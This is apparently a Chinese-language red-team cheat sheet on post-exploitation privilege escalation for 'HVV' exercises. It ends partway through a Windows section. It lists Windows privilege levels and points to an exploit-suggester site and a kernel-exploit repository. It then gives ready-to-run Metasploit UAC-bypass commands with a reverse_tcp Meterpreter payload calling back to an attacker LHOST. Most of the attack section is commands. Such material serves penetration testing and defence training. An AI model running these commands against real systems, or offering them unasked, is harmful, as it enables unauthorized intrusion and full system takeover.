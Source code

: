 # hvv_后渗透


HVV专题--后渗透



## 权限提升

通常有两种提权方式，纵向提权及横向提权；纵向提权指的是低权限角色获取高权限角色的权限、横向提权指在系统A中获取了系统B中同级别的角色权限。常用提权方法有系统内核溢出漏洞提权、服务器中间件漏洞提权、数据库提权、其它第三方组件提权。

### windows提权

Windows常见权限分类：

```
*   User：普通用户权限；
*   Administrator：管理员权限；
*   System：系统权限。
```

#### 1.提权辅助脚本

```
http://bugs.hacking8.com/tiquan/```将systeminfo输出的修补程序信息填入查询可利用的漏洞，查出漏洞后可在https://github.com/SecWiki/windows-kernel-exploits/查找下载利用程序进行提权；
```

#### 2.msf提权

##### 2.1 msf绕过UAC提权

一般我们通过msf拿到meterprter的会话后，我们可以通过getsystem或者getuid来检查是否是system权限

（权限为Administrator时大概率会成功，其他可能需要绕UAC）

```
①进程注入方式UAC
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set LHOST=192.168.1.8
set session 1
exploit
在执行getsystem
​
②内存注入
use exploit/windows/local/bypassuac_injection
set payload windows/meterpreter/reverse_tcp
set LHOST=192.168.1.8
set session 1
exploit
在执行getsystem
​
③Eventvwr注册表项 
use exploit/windows/local/bypassuac_eventvwr
​
④COM处理程序劫持
use exploit/windows/local/bypassuac_comhijack
```
